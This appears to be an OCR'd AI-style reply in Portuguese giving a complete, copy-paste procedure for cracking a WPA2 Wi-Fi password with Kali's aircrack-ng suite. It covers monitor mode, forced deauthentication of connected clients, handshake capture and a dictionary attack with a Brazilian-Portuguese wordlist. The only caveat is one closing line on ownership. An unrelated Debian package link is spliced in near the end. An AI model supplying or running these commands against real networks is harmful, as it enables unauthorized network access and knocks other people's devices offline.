 ### 🔧 **Etapas para Recuperar a Senha WPA2**

#### **1. Ativar o Modo Monitoramento na Interface Wireless**
No modo live, primeiro identifique sua interface wireless (geralmente `wlan0` ou `wlan1`):
```bash
iwconfig
```
Se necessário, liste todas as interfaces:
```bash
airmon-ng
```
Mate processos que possam interferir:
```bash
airmon-ng check kill
```
Ative o modo monitoramento (substitua `wlan0` pelo nome da sua interface):
```bash
airmon-ng start wlan0
```
A nova interface de monitoramento geralmente será `wlan0mon`. Verifique:
```bash
iwconfig
```

#### **2. Capturar o Handshake WPA2**
Use `airodump-ng` para capturar o handshake, especificando o BSSID (MAC do roteador) e o canal:
```bash
airodump-ng -c <canal> --bssid <MAC_DO_ROTEADOR> -w /tmp/capture wlan0mon
```
Exemplo:
```bash
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w /tmp/capture wlan0mon
```
- `-c`: canal do roteador.
- `--bssid`: MAC do roteador.
- `-w /tmp/capture`: salva os arquivos de captura em `/tmp` (volátil, mas adequado para modo live).
- `wlan0mon`: interface em modo monitoramento.

#### **3. Forçar um Deauthentication para Obter o Handshake**
Para acelerar a captura do handshake, force uma desautenticação de clientes conectados (isso desconecta dispositivos temporariamente, mas eles reconectarão automaticamente). Em um novo terminal:
```bash
aireplay-ng -0 10 -a <MAC_DO_ROTEADOR> wlan0mon
```
- `-0`: modo deauthentication.
- `10`: número de pacotes de desautenticação (ajuste conforme necessário).
- `-a`: MAC do roteador alvo.

Aguarde até ver `WPA handshake` no canto superior direito do terminal onde `airodump-ng` está rodando. Depois, pressione `Ctrl+C` para interromper a captura.

#### **4. Preparar um Dicionário em Português do Brasil**
Como a senha está em português, use ou crie um dicionário com palavras comuns em português. No modo live, você pode:
- Usar dicionários existentes no Kali (ex: `/usr/share/wordlists/`).
- Criar um dicionário personalizado com palavras em português.

Exemplo de dicionários disponíveis no Kali:
```bash
ls /usr/share/wordlists/
```
Alguns arquivos comuns: `rockyou.txt.gz` (descompacte com `gzip -d /usr/share/wordlists/rockyou.txt.gz`), `sqlmap.txt`, etc.

Como o Kali live não tem persistência, você pode baixar um dicionário em português antecipadamente e salvar em um pendrive, ou criar um manualmente. Exemplo de criação básica:
```bash
echo -e "senha\\n123456\\nbrasil\\nroteador\\nadmin\\npassword\\nwifisegura" > /tmp/wordlist_ptbr.txt
```
Para um dicionário mais robusto, considere usar listas como:
- **BruteForce wordlist** (já inclui termos em português).
- **Custom wordlist** com palavras comuns em PT-BR (ex: nomes, cidades, palavras comuns).

💡 *Dica: Se tiver outro roteador com internet, você pode baixar wordlists grandes, mas não é necessário para o processo de cracking.*

#### **5. Quebrar a Senha com Aircrack-ng**
Use `aircrack-ng` para testar o dicionário contra o handshake capturado:
```bash
aircrack-ng -a2 -b <MAC_DO_ROTEADOR> -w /tmp/wordlist_ptbr.txt /tmp/capture-01.cap
```
- `-a2`: indica WPA2.
- `-b`: MAC do roteador.
- `-w`: caminho para o arquivo de dicionário.
- `/tmp/capture-01.cap`: arquivo de captura (o número pode variar).

Se o dicionário contiver a senha, você verá:
```
KEY FOUND! [ senha_recovered ]
```
Caso contrário, tente com outro dicionário.

---

### ⚙️ **Otimizações para Modo Live**
- Como o modo live não salva dados após desligar, trabalhe na pasta `/tmp` (que é em RAM).
- Se possível, use um pendrive com persistência para salvar capturas e wordlists grandes.
- Para melhor performance, use dicionários focados em PT-BR. Exemplos:
  - [**BruteForce wordlist**](https://github.com/jeanphorn/wordlist) (inclui termos em português).
  - [**SecLists**](https://github.com/danielmiessler/SecLists) (contém listas em múltiplos idiomas).

---

### ❌ **Se Não Funcionar**
- Se o handshake não for capturado, repita o passo de deauthentication.
- Aumente o número de pacotes de deauthentication (ex: `-0 20`).
- Verifique se a interface está realmente em modo monitoramento (`iwconfig`).
- Use um dicionário maior ou mais específico.

---

### 📌 **Exemplo de Comandos em Sequência**
```bash
# Ativar modo monitoramento
airmon-ng check kill
airmon-ng start wlan0

# Capturar handshake (canal 6, BSSID 00:11:22:33:44:55)
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w /tmp/capture wlan0mon

# Em outro terminal: forçar deauthentication
aireplay-ng -0 10 -a 00:11:22:33:44:55 wlan0mon

# Quebrar senha com dicionário PT-BR
aircrack-ng -a2 -b 00:11:22:33:44:55 -w /tmp/wordlist_ptbr.txt /tmp/capture-01.cap
```

---

### 🌐 **Precisa de Internet?**
**Não.** Todo o processo é offline após ativar o modo monitoramento. A captura do handshake e o cracking são feitos localmente. A internet só seria útil para baixar wordlists adicionais, mas não é essencial.

---

### ✅ **Dicionário Sugerido para PT-BR**
Crie um arquivo `/tmp/wordlist_ptbr.txt` com palavras comuns:
```bash
echo -e "senha\\n123456\\nbrasil\\nroteador\\nadmin\\npassword\\nwifisegura\\nminhasenha\\nseguranca\\n123456789\\nquerty\\nmeuroteador\\nnovasenha\\nsenha123" > /tmp/wordlist_ptbr.txt
```
Para listas mais completas, busque por "wordlist portuguese" no GitHub ou use tools como `crunch` para gerar combinações personalizadas.

---

### 🧠 **Notas Finais**
- Esse processo é ético apenas se você for o proprietário do roteador.
- No modo live, tudo é perdido ao desligar. Use persistência ou salve em mídia externa se precisar manter dados.
- O tempo de cracking depende do tamanho do dicionário e da complexidade da senha.
> [debian testing - intel-media-non-free](https://packages.debian.org/search?keywords=intel-media-va-driver-non-free)
Se seguir esses passos, chances são de que recupere a senha! 🔓

